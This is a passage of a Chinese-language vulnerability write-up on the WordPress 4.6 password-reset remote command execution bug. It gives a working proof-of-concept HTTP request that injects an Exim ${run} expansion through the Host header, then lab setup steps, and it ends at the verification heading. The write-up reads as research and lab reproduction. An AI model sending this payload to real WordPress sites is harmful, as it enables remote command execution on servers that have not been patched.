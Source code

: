 发送包：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)

获得变量

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [-be]  
	Arg no. 5 == [${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch]  
	Arg no. 6 == [${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}]  
	Arg no. 7 == [tmp2)]  

可以发现此时又出问题了，参数中出现的空格，导致参数被分割了。 于是作者通过sendmail -be '${substr{10}{1}{$tod_log}}'从环境变量中抽取了空格。

最终poc请求如下:

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 56


	user_login=admin&redirect_to=&wp-submit=Get+New+Password

命令会在/tmp目录下创建test文件

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境准备 ###

1. Ubuntu14.04 虚拟机（虚拟机或其他Linux都可）
2. WordPress-4.6源码
3. Apache+php+MySql环境
3. sendmail 和 exim4扩展

**注：** 虚拟机中也可以直接执行：

	apt-get install -y --force-yes php5-mysql php5-dev php5-gd php5-memcache php5-pspell php5-snmp snmp php5-xmlrpc libapache2-mod-php5 php5-cli exim4

将所需的环境都装上。

### 4.2&emsp;靶场搭建 ###

把下载的源码拷进Apache根目录，解压源码，然后直接通过浏览器访问按照正常的wordpress安装流程安装即可。

### 4.3&emsp;漏洞验证 ###
